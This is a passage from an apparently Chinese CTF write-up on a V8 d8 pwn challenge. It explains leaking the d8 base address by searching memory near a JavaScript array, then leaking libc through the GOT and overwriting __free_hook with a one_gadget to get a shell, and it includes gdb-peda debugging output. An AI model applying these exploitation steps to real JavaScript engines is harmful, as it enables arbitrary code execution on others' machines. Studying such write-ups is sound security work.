 ## 正常Pwn题get shell

正常我们获取shell的方法要先泄露libc之后改__free_hook为one_gadget等。  
这里泄露libc的方式有两种，分别是稳定泄露和不稳定泄露，稳定的方式我试了下也和姚老板一样没整出来(ubuntu 16.04),这里只讲下不稳定泄露。

任意创建一个数组，输出数组地址，往前搜索内存会发现在前面0xd000多的地方有程序的地址，由此可以算出程序基址，之后用got表泄露libc，改__free_hook即可get shell。  

```js
var a = [1.1,2.2,3.3];
%DebugPrint(a);
%SystemBreak();
```
查看d8地址之后搜索，选一个地址比较高的查看一下(exp是写这篇博客前写的，所以当时选的是另一个地址，exp里有出入)  
```bash
0x3a9ed418ddb9 <JSArray[3]>

Thread 1 "d8" received signal SIGTRAP, Trace/breakpoint trap.
gdb-peda$ vmmap d8
Start              End                Perm      Name
0x000055df6dd59000 0x000055df6dfec000 r--p      /home/wz/v8/v8/out.gn/x64.release/d8
0x000055df6dfec000 0x000055df6eab4000 r-xp      /home/wz/v8/v8/out.gn/x64.release/d8
0x000055df6eab4000 0x000055df6eaf4000 r--p      /home/wz/v8/v8/out.gn/x64.release/d8
0x000055df6eaf4000 0x000055df6eafe000 rw-p      /home/wz/v8/v8/out.gn/x64.release/d8

gdb-peda$ find 0x55df6d
Searching for '0x55df6d' in: None ranges
Found 17809 results, display max 256 items:
mapped : 0x3a9ed418016b --> 0x181f49000055df6d 
mapped : 0x3a9ed4180193 --> 0x180b71000055df6d 
mapped : 0x3a9ed41801a3 --> 0x180801000055df6d 
mapped : 0x3a9ed41802a3 --> 0x180b71000055df6d 
mapped : 0x3a9ed41802b3 --> 0x181f49000055df6d 
mapped : 0x3a9ed41802db --> 0x180b71000055df6d 
mapped : 0x3a9ed41802eb --> 0x181f49000055df6d 
mapped : 0x3a9ed4180313 --> 0x180b71000055df6d 
mapped : 0x3a9ed4180323 --> 0x181f49000055df6d 
mapped : 0x3a9ed4180353 --> 0x180b71000055df6d 
mapped : 0x3a9ed4180363 --> 0x181f49000055df6d 
mapped : 0x3a9ed418038b --> 0x180b71000055df6d 
mapped : 0x3a9ed418039b --> 0x181f49000055df6d 
mapped : 0x3a9ed41803c3 --> 0x180b71000055df6d 
mapped : 0x3a9ed41803d3 --> 0x180801000055df6d 
mapped : 0x3a9ed4180583 --> 0x180b71000055df6d 
mapped : 0x3a9ed4180593 --> 0x181f49000055df6d 
mapped : 0x3a9ed41805bb --> 0x180b71000055df6d 
mapped : 0x3a9ed41805cb --> 0x181f49000055df6d 
mapped : 0x3a9ed418061b --> 0x180b71000055df6d 
mapped : 0x3a9ed418062b --> 0x180801000055df6d 
mapped : 0x3a9ed4180733 --> 0x180b71000055df6d 
mapped : 0x3a9ed4180743 --> 0x181f49000055df6d 
mapped : 0x3a9ed418076b --> 0x180b71000055df6d 
--More--(25/257)j
mapped : 0x3a9ed418077b --> 0x181f49000055df6d 
mapped : 0x3a9ed41807a3 --> 0x180b71000055df6d 
mapped : 0x3a9ed41807b3 --> 0x180941000055df6d 
mapped : 0x3a9ed41807f3 --> 0x180b71000055df6d 
mapped : 0x3a9ed4180803 --> 0x180801000055df6d 
mapped : 0x3a9ed4180903 --> 0x180b71000055df6d 
mapped : 0x3a9ed4180913 --> 0x181f49000055df6d 
mapped : 0x3a9ed418093b --> 0x180b71000055df6d 
mapped : 0x3a9ed418094b --> 0x181f49000055df6d 
mapped : 0x3a9ed4180973 --> 0x180b71000055df6d 
mapped : 0x3a9ed4180983 --> 0x181f49000055df6d 
mapped : 0x3a9ed41809c3 --> 0x180b71000055df6d 
```